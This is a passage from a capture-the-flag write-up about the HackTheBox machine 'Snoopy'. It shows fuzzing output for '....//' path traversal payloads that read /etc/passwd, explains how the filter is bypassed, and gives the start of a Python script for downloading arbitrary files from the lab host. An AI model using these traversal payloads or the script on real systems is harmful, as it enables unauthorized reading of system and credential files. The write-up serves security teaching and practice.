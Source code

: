 ```
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 99ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 101ms]
....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 103ms]
....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 102ms]
....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 104ms]
:: Progress: [922/922] :: Job [1/1] :: 470 req/sec :: Duration: [0:00:02] :: Errors: 0 ::

```

Again, I’m using `-mc all` to allow all codes, and `-ac` to let it smart decide what to filter. It seems like the site must be removing `../` in such a way that `....//` becomes `../`. I can verify this manually:

![image-20230509153726493](https://0xdf.gitlab.io/img/image-20230509153726493.png)

The file coming back starts with `PK`, which are the [magic bytes](https://en.wikipedia.org/wiki/List_of_file_signatures) for a zip archive. I’ll try that in a browser, and the resulting zip has the `passwd` file:

![image-20230509154124652](https://0xdf.gitlab.io/img/image-20230509154124652.png)

#### Script

To enumerate the host, I’ll write a quick Python script to allow me to easily pull files and unzip them. I’ll walk through building the script in [this video](https://www.youtube.com/watch?v=2a4OJeSZ_N0):

The final code looks like:

```
#!/usr/bin/env python3

import requests
import sys
import zipfile
from io import BytesIO

if len(sys.argv) < 2:
    print(f"usage: {sys.argv[0]} [full path of file]")
    sys.exit()

fpath = sys.argv[1]
outfile = sys.argv[2] if len(sys.argv) > 2 else None

resp = requests.get(f'http://snoopy.htb/download?file=....//....//....//....//....//{fpath}')

if len(resp.content) == 0:
    print(f"File not found: {fpath}")
    sys.exit()
```